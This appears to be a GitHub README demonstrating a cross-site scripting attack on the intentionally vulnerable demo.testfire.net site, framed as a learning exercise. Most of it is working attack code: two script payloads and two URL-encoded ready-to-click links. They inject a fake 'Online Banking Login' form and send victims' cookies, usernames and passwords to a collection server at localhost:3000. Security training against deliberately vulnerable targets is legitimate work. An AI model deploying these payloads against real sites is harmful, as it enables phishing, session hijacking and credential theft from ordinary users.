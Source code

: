# Fake Login form using cross site scripting.
# This is done on a website which is made intentionally vulnerable.
# https://demo.testfire.net/
# This is only for learning purposes.

# Note:
Below is the script, execute this on any input form eg (Search, feedback) of the given website.
You must have local server setup, here it is node server localhost:30000. code is uploaded clone it and run on your system.

# Request on server console

<form action method name="login" id="login"><table><tbody><tr><td>Username:</td><td><input type="text" id="uid" name="uid" value="" style="width: 150px;"></td><td></td></tr><tr><td>Password:</td><td><input type="password" id="passw" name="passw" style="width: 150px;"></td></tr><tr><td></td><td><input type="button" name="btnSubmit" value="Login" onclick="return (SubmitForm());"></td></tr></tbody></table></form>
<script type="text/javascript">
    function SubmitForm()
    {
            document.forms['login'].action='doLogin';
            document.forms["login"].method = "post";
            document.forms["login"].target = "_self";
            document.forms["login"].submit();
            new Image().src="http://localhost:3000/?"+document.cookie+'&UserName='+document.forms["login"].uid.value+'&Password='+document.forms["login"].passw.value;
            return (true);
    }
    document.getElementsByClassName("fl")[0].children[0].textContent = "Online Banking Login";
    document.getElementsByClassName("fl")[0].children[1].textContent = "";
</script>

# Direct Link to get fake form 
<a href="https://demo.testfire.net/search.jsp?query=%3Cform+action+method+name%3D%22login%22+id%3D%22login%22%3E%3Ctable%3E%3Ctbody%3E%3Ctr%3E%3Ctd%3EUsername%3A%3C%2Ftd%3E%3Ctd%3E%3Cinput+type%3D%22text%22+id%3D%22uid%22+name%3D%22uid%22+value%3D%22%22+style%3D%22width%3A+150px%3B%22%3E%3C%2Ftd%3E%3Ctd%3E%3C%2Ftd%3E%3C%2Ftr%3E%3Ctr%3E%3Ctd%3EPassword%3A%3C%2Ftd%3E%3Ctd%3E%3Cinput+type%3D%22password%22+id%3D%22passw%22+name%3D%22passw%22+style%3D%22width%3A+150px%3B%22%3E%3C%2Ftd%3E%3C%2Ftr%3E%3Ctr%3E%3Ctd%3E%3C%2Ftd%3E%3Ctd%3E%3Cinput+type%3D%22button%22+name%3D%22btnSubmit%22+value%3D%22Login%22+onclick%3D%22return+%28SubmitForm%28%29%29%3B%22%3E%3C%2Ftd%3E%3C%2Ftr%3E%3C%2Ftbody%3E%3C%2Ftable%3E%3C%2Fform%3E+%3Cscript+type%3D%22text%2Fjavascript%22%3E+++++function+SubmitForm%28%29+++++%7B+++++++++++++document.forms%5B%27login%27%5D.action%3D%27doLogin%27%3B+++++++++++++document.forms%5B%22login%22%5D.method+%3D+%22post%22%3B+++++++++++++document.forms%5B%22login%22%5D.target+%3D+%22_self%22%3B+++++++++++++document.forms%5B%22login%22%5D.submit%28%29%3B+++++++++++++new+Image%28%29.src%3D%22http%3A%2F%2Flocalhost%3A3000%2F%3F%22%2Bdocument.cookie%2B%27%26UserName%3D%27%2Bdocument.forms%5B%22login%22%5D.uid.value%2B%27%26Password%3D%27%2Bdocument.forms%5B%22login%22%5D.passw.value%3B+++++++++++++return+%28true%29%3B+++++%7D+++++document.getElementsByClassName%28%22fl%22%29%5B0%5D.children%5B0%5D.textContent+%3D+%22Online+Banking+Login%22%3B+++++document.getElementsByClassName%28%22fl%22%29%5B0%5D.children%5B1%5D.textContent+%3D+%22%22%3B+%3C%2Fscript%3E" target="_blank">Click me to fake login</a> (<i>Run this on firefox</i>)

# ---------------------------------------------------------------------------------------------------------------------
# Server request with UI output

<form action method name="login" id="login"><table><tbody><tr><td>Username:</td><td><input type="text" id="uid" name="uid" value="" style="width: 150px;"></td><td></td></tr><tr><td>Password:</td><td><input type="password" id="passw" name="passw" style="width: 150px;"></td></tr><tr><td></td><td><input type="button" name="btnSubmit" value="Login" onclick="return (SubmitForm());"></td></tr></tbody></table></form>
<script type="text/javascript">
    function SubmitForm()
    {
            document.forms['login'].action='doLogin';
            document.forms["login"].method = "post";
            document.forms["login"].target = "_self";
            document.forms["login"].submit();

            document.forms["login"].action = "http://localhost:3000/";
            new Image().src="http://localhost:3000/?"+document.cookie;
            document.forms["login"].method = "get";
            document.forms["login"].target = "http://localhost:3000/";
            document.forms["login"].submit();
            return (true);
    }
    document.getElementsByClassName("fl")[0].children[0].textContent = "Online Banking Login";
    document.getElementsByClassName("fl")[0].children[1].textContent = "";
</script>

# Below is the link prepared from the above script.

# <a href="https://demo.testfire.net/search.jsp?query=%3Cform+action+method+name%3D%22login%22+id%3D%22login%22%3E%3Ctable%3E%3Ctbody%3E%3Ctr%3E%3Ctd%3EUsername%3A%3C%2Ftd%3E%3Ctd%3E%3Cinput+type%3D%22text%22+id%3D%22uid%22+name%3D%22uid%22+value%3D%22%22+style%3D%22width%3A+150px%3B%22%3E%3C%2Ftd%3E%3Ctd%3E%3C%2Ftd%3E%3C%2Ftr%3E%3Ctr%3E%3Ctd%3EPassword%3A%3C%2Ftd%3E%3Ctd%3E%3Cinput+type%3D%22password%22+id%3D%22passw%22+name%3D%22passw%22+style%3D%22width%3A+150px%3B%22%3E%3C%2Ftd%3E%3C%2Ftr%3E%3Ctr%3E%3Ctd%3E%3C%2Ftd%3E%3Ctd%3E%3Cinput+type%3D%22button%22+name%3D%22btnSubmit%22+value%3D%22Login%22+onclick%3D%22return+%28SubmitForm%28%29%29%3B%22%3E%3C%2Ftd%3E%3C%2Ftr%3E%3C%2Ftbody%3E%3C%2Ftable%3E%3C%2Fform%3E+%3Cscript+type%3D%22text%2Fjavascript%22%3E+++++function+SubmitForm%28%29+++++%7B+++++++++++++document.forms%5B%27login%27%5D.action%3D%27doLogin%27%3B+++++++++++++document.forms%5B%22login%22%5D.method+%3D+%22post%22%3B+++++++++++++document.forms%5B%22login%22%5D.target+%3D+%22_self%22%3B+++++++++++++document.forms%5B%22login%22%5D.submit%28%29%3B++++++++++++++document.forms%5B%22login%22%5D.action+%3D+%22http%3A%2F%2Flocalhost%3A3000%2F%22%3B+++++++++++++new+Image%28%29.src%3D%22http%3A%2F%2Flocalhost%3A3000%2F%3F%22%2Bdocument.cookie%3B+++++++++++++document.forms%5B%22login%22%5D.method+%3D+%22get%22%3B+++++++++++++document.forms%5B%22login%22%5D.target+%3D+%22http%3A%2F%2Flocalhost%3A3000%2F%22%3B+++++++++++++document.forms%5B%22login%22%5D.submit%28%29%3B+++++++++++++return+%28true%29%3B+++++%7D+++++document.getElementsByClassName%28%22fl%22%29%5B0%5D.children%5B0%5D.textContent+%3D+%22Online+Banking+Login%22%3B+++++document.getElementsByClassName%28%22fl%22%29%5B0%5D.children%5B1%5D.textContent+%3D+%22%22%3B+%3C%2Fscript%3E" target="_blank">Click me to fake login</a> (<i>Run this on firefox</i>)


# References
https://pentest-tools.com/blog/xss-attacks-practical-scenarios/ , 
http://form.guide/web-form/submit-form-multiple-scripts.html
